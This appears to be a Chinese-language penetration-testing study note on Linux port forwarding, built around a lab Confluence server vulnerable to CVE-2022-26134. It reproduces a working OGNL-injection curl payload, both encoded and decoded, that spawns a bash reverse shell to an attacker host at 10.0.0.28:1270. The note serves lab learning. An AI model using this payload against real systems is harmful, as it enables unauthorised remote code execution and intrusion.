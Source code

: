## Port Forwarding with Linux Tools
Port Forwarding:\
Port Forwarding 是將一個主機上的某個 Port 設定為監聽流量，並將接收到的數據包轉發到另一個目標地址或端口的技術。在正常的網路環境下，網管可能會設定 Port Forwarding 來讓外部設備能夠存取內部伺服器，例如：\
- 防火牆可以監聽某個 外部介面的端口，然後將流量轉送到內部伺服器。
- 家用路由器也常提供 Port Forwarding 功能，允許從外部網路存取內部網路設備。

### A Simple Port Forwarding Scenario
一台 [Confluence](https://www.atlassian.com/software/confluence) 版本的 Linux Web 伺服器，存在 [CVE-2022-26134](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) 漏洞: 可以透過身份驗證，取得 RCE\
Enumeration: 兩個 network interfaces
- 一張連接到 [WAN](https://en.wikipedia.org/wiki/Wide_area_network)（廣域網路，模擬企業內部網路或互聯網），我們的 Kali 機器與它在同一個網段內，能夠直接連線
- 另一張連接到內部的 [DMZ](https://en.wikipedia.org/wiki/DMZ_(computing))（非軍事區，Demilitarized Zone），這是一個受限制的內部網段

在 Confluence 設定檔中，發現了一組 PostgreSQL 資料庫（PGDATABASE01） 的 IP 位址和登入憑證，該資料庫位於 DMZ 內。\
網路架構如下圖：\
![image](https://hackmd.io/_uploads/SkTnKHxs1l.png)

CONFLUENCE01 跨越 WAN 和 DMZ，可在兩個 networks 上進行通訊。 CONFLUENCE01 也在監聽 TCP port 8090 ; PGDATABASE01 也附加了 open socket，說明有東西正在監聽 TCP port 5432（**可能是 PostgreSQL 伺服器，因為預設連接埠是 5432**）。

目標： 利用我們在 CONFLUENCE01 上找到的憑證，嘗試從 Kali 機器連接到 PGDATABASE01 上的這個 PostgreSQL 連接埠。

### Setting Up the Lab Environment
為了存取 CONFLUENCE01，我們需要利用 Confluence Web 應用程式中的命令執行漏洞來取得 Reverse shell。
在 [Rapid7](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) 的 blog ，其中包含 [cURL](https://curl.se/) cmd 和 [proof-of-concept](https://en.wikipedia.org/wiki/Proof_of_concept) payload，該有效 payload 聲稱利用該漏洞來取得 reverse shell

- example payload from the Rapid7 blog post
```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```
> curl-v `http://10.0.0.28:8090/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}`/

在不了解其功能的情況下，先弄清楚這個 proof-of-concept 中發生了什麼
> OGNL injection

>[!Note]
> OGNL: [Object-Graph Notation Language](https://en.wikipedia.org/wiki/OGNL)
> 一種 Java 應用程式中常用的表達語言。當應用程式以將使用者輸入傳遞給 OGNL 表達式解析器的方式處理使用者輸入時，就會發生 OOGNL injection。由於可以在 OGNL 表達式內執行 Java 程式碼，因此可以使用 OGNL injection 來執行任意程式碼。\
OGNL 注入負載本身使用 Java 的 ProcessBuilder 類別來產生Bash互動式反向 shell（bash -i）。

```java
new javax.script.ScriptEngineManager()
  .getEngineByName("nashorn")
  .eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()");
```
> 透過 ProcessBuilder 執行 bash -i，建立 Reverse Shell 連線到攻擊者的機器（10.0.0.28:1270）

